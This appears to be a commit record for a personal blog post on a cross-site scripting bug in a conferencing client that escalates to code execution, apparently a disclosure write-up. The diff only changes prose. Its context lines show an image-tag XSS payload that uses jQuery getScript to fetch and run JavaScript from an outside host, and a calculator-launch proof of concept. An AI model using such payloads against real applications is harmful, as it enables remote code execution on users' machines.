

Before and after one commit to oreoshake/oreoshake.github.io, a Jekyll site: the page built from _posts/2015-09-10-xss-to-rce.markdown, in a window 1280 px wide and 900 px high, scrolled down 2691 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2015-09-10-xss-to-rce.markdown

```diff
--- a/_posts/2015-09-10-xss-to-rce.markdown
+++ b/_posts/2015-09-10-xss-to-rce.markdown
@@ -55,13 +55,13 @@ The payload can be simplified as:
 
 `<img src=x onerror=$.getScript("//xor.cc")>`
 
-[`$.getScript`](https://api.jquery.com/jquery.getscript/) tells jQuery to fetch and execute the javascript at `xor.cc`. Yep, an image that failed to load eventually fetched and executed even more javascript. The fetched javascript that opens the calculator is:
+[`$.getScript`](https://api.jquery.com/jquery.getscript/) tells jQuery to fetch and execute the javascript at `xor.cc`. The fetched javascript that opens the calculator is:
 
 `process.open("/Applications/Calculator.app/Contents/MacOS/Calculator");` (72 chars)
 
 ## Why it sort of matters
 
-XSS is XSS is XSS. But XSS in an app with an API to the filesystem is XSS is worse. &lt;conf provider X&gt; meetings typically are... unauthenticated. Everyone raise your hand. Now put down your hand if you have required password authentication for every meeting you have joined. Look to your left, look to your right, and notice that nobody's hand is up. If you've used &lt;conf provider X&gt;, chance are you've used it in a manner that let's this exploit work on any publicly known or guessable &lt;conf provider X&gt; meeting ID. I did not try to brute force the meeting space for open meetings. That would have been bad.
+XSS is XSS is XSS. But XSS in an app with an API to the filesystem is XSS is worse. &lt;conf provider X&gt; meetings typically are... unauthenticated. Everyone raise your hand. Now put down your hand if you have required password authentication for every meeting you have joined. Look to your left, look to your right, and notice everyone's hand is still up. If you've used &lt;conf provider X&gt;, chance are you've used it in a manner that let's this exploit work on any publicly known or guessable &lt;conf provider X&gt; meeting ID. I did not try to brute force the meeting space for open meetings. That would have been bad.
 
 ## Calculators
 
```
